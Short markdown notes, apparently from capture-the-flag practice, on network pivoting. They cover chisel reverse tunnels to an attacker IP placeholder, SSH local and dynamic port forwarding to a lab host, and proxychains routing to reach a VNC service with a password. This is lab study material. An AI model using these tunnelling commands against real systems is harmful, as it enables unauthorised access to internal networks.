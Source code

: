 ```
./chisel server --reverse -p PORT ##to create a server 
 client 
client <ATTACKER_IP>:9001 R:8500:127.0.0.1:8500 ##create client
 .\chisel.exe client 10.10.17.185:9002 R:8888:localhost:8888
```

# Pivoting with ssh konami 

https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/

# ssh reverse tunnel
```bash
ssh -L my_port:service_IP:target_port 	ssh target ip


ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@poison.htbb

-L # listening ports on our machine access  5801 and 5901
-D # Dynamic through proxy

```

# Proxy chains
First we add our local host and wanted port into /etc/proxychains.conf
```bash
socks4 127.0.0.1 8081
```
Then we can use ssh to tunnel though port 8081
```bash
ssh charix@10.10.10.84 -D 8081
```

then we can use proxychains with what ever command we want using the wanted port
```bash
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```